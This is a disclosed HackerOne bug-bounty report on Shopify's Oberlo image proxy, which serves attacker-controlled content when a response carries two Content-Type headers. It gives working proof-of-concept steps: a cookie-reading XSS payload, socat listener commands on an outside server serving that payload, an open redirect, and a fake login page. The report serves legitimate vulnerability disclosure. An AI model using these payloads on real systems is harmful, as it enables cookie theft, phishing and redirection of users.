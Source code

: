 # Improper Input Validation on https://oberlo-image-proxy.shopifycloud.com/

## Report Details
- **Report ID**: 1267677
- **URL**: https://hackerone.com/reports/1267677
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-07-19T02:25:29.029Z
- **Disclosed**: 2021-08-16T17:20:36.104Z

## Reporter
- **Username**: riramar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
The service under https://oberlo-image-proxy.shopifycloud.com/ seems to work like a image proxy through the url GET parameter and it suppose to handle only images.

█████████

When other content type than an image is present the service returns a 404 error to the user.

```
# curl -si https://oberlo-image-proxy.shopifycloud.com/?url=http://████
HTTP/2 404
date: Mon, 19 Jul 2021 01:57:52 GMT
content-length: 0
x-original-content-length: -1
x-original-status: 200
strict-transport-security: max-age=63072000; includeSubDomains; preload
x-dc: gcp-us-central1
```

By providing two Content-Type (image/png and text/html) response headers in the response an attacker can force the service present any content under his control.
Since two Content-Type response headers are not RFC compliance the response needs to be crafted by a tool like socat or netcat. Let's try XSS!
First create any file with the content below.

```
root@pqp:~/www/shopifycloud# cat xss.jpg
<script>alert(document.cookie)</script>
```

Run socat as a listener with the command below. This command will calculate the size and present the file above with two Content-Type (image/png and text/html) response headers  for any request to my server running under http://pqp.mx.

```
root@pqp:~/www/shopifycloud# FILE=xss.jpg;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo 'Content-Type: text/html';/bin/echo;dd 2>/dev/null<$FILE"
2021/07/18 22:02:56 socat[3266014] N listening on AF=2 0.0.0.0:80
```

Now loads the URL https://oberlo-image-proxy.shopifycloud.com/?url=http://pqp.mx/xss.jpg in any browser.

██████
{F1381201}

Notice any application with a cookie domain .shopifycloud.com can be impacted. Any attack scenario through XSS is possible here. This can also be useful for CSP bypass when *.shopifycloud.com is whitelisted. Let's try redirect!
The socat command below can be used to redirect to any domain. In this case I'm redirecting the user to https://████.

```
socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Content-Type: image/png";/bin/echo "Content-Type: text/html";/bin/echo "Location: https://███████";/bin/echo;/bin/echo'
```

{F1381208}

Since an attacker can present anything this vulnerability can be used for fake login pages as well. We can use the same approach as the XSS but presenting the file {F1381210}.

```
FILE=login.html;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo 'Content-Type: text/html';/bin/echo;dd 2>/dev/null<$FILE"
```

{F1381209}

## Impact

I've presented three different malicious scenarios (XSS, redirect and fake login page) but an attacker can exploit this vulnerability in a lot of different ways.
Most of the time this issue can help in a chain of vulnerabilities in order to produce a critical impact.

## Attachments
- xss_2.png
- redirect.png
- redirect.png
- login.png
- login.html
